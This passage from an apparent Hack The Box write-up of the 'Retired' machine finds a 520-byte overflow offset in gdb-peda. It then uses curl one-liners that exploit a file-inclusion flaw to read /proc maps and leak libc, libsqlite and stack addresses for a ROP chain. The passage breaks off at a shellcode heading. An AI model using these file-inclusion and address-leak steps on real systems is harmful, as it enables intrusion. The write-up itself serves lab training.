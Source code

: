 The binary crashed with a segmentation fault, which means we overflowed the buffer so now we can see what the offset was:

```sh
gdb-peda$ x/wx $rsp
0x7fffffffe2d8: 0x416a7341
gdb-peda$ pattern_offset 0x416a7341
1097495361 found at offset: 520
```

Here we looked at the contents of the RSP register which gave us the value **0x416a7341**, then we searched the pattern we created using **pattern_offset** to find that value. The match was at 520 so that's our offset which we'll use to build our exploit script.

## Memory Addresses

As mentioned earlier with NX enabled we'll be using ROP gadgets to get around it, so next we need to know the current memory addresses of libc-2.31.so and libsqlite3.so.0.8.6. With the memory address being dynamic it means each time the box is rebooted the address will change, we can use the maps file in /proc to get us the current values:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# libc_start=$(curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps" | grep -m 1 "/usr/lib/x86_64-linux-gnu/libc-2.31.so" | awk -F[-] '{print $1}')

┌──(root㉿kali)-[~/htb/retired]
└─# libsqlite_start=$(curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps" | grep -m 1 "/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6" | awk -F[-] '{print $1}')
```

We also need the stack address:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# stack_start=$(curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps" | grep -m 1 "stack" | awk -F[-] '{print $1}')

┌──(root㉿kali)-[~/htb/retired]
└─# stack_end=$(curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps" | grep -m 1 "stack" | awk -F[-] '{print $2}' | cut -d ' ' -f 1)
```

Make a note of the values for our script:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# echo $libc_start, $libsqlite_start, $stack_start, $stack_end
7fb1ff018000, 7fb1ff1dd000, 7fffddc82000, 7fffddca3000
```

## MSFVenom Shellcode
